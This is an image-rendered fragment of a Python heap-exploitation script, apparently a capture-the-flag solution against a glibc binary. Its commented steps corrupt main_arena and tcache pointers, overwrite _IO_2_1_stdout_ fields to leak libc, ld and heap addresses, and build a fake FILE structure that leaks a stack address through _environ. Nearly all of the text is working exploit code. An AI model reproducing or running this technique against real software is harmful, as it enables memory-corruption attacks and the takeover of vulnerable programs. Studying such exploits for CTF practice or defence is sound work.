 ```python
    add(0xf7, chunk0) #0

    chunk1 = b"\x22"*0x28
    chunk1 += p64(0xb41)
    chunk1 = chunk1.ljust(0x90, b'\x22')
    add(0xf7, chunk1) #1

    chunk2 = b"\x33"*0x27
    add(0x27, chunk2) #2

    copy(2, 1, -0x80)

    # step2: free top_chunk through scanf and put it in unsortedbin
    ru("> ")
    sl("0")
    ru("size: ")
    sl('0'*0x1000+str(0x101))

    # step3: partial overwrite main_arena pointer, and point to _IO_2_1_stdout_
    copy(0, 2, -0xce)
    copy(1, 2, -0xce)
    copy(1, 2, -0xd0)
    copy(0, 2, -0x1d0+0x20)
    copy(1, 2, -0x190+0x80)
    copy(0, 2, -0x290+0x80)

    # step4: partial overwrite _IO_write_base low 2 bytes by "\n\x00" to leak libc and heap addr
    chunk3 = p64(0xfbad2887|0x1802) + p64(0xdeadbeef)*3
    add(0x97, chunk3) #3 -> stdout
    rv(0x48-0xa)
    libc_base = u64(rv(8)) - 0x1bd4a0
    rv(0x1000)
    sleep(0.2)
    rv(0x1000)
    sleep(0.2)
    res = rv(0x1000)
    sleep(0.2)
    ld_base = u64(res[0xc68:0xc70]) - 0x1250
    res = rv(0x1000)
    sleep(0.2)
    heap_base = u64(res[0x1d9:0x1e1])
    lg("libc", libc_base)
    lg("ld", ld_base)
    lg("heap", heap_base)

    # step5: arrange the pointers of _IO_2_1_stdout_ and tcache_perthread_struct
    # in tcache_perthread_struct in advance
    environ_addr = libc_base + 0x20ad58
    stdout_addr = libc_base + 0x2045c0

    chunk4 = p64(stdout_addr) + p64(heap_base+0xd0)
    add(0xf7, chunk4) #4
    copy(0, 2, -0x10)
    copy(0, 2, -0x1d0+0x20)

    # step6: overwrite _IO_write_base to leak stack addr by _environ
    fake_file = p64(0xfbad3887) + p64(libc_base + 0x204643)*3
    fake_file += p64(environ_addr) + p64(environ_addr+8)*2
    fake_file += p64(libc_base + 0x204643) + p64(libc_base + 0x204644)
    add(0x97, fake_file) #5
    stack_addr = u64(rv(8))
    lg("stack", stack_addr)

```